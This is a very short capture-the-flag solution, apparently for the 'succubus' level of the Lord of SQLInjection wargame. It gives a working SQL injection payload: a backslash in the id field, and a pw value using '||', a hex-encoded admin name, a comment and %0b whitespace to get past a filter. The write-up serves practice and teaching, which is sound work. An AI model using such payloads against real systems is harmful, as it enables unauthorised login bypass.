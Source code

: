 # Lord of SQLInjection succubus Solution

The payload will be for id: `\`
for pw: `||id=0x61646D696E--%0b` 
and the whole query will look like this: `id=\&pw=||id=0x61646D696E--%0b`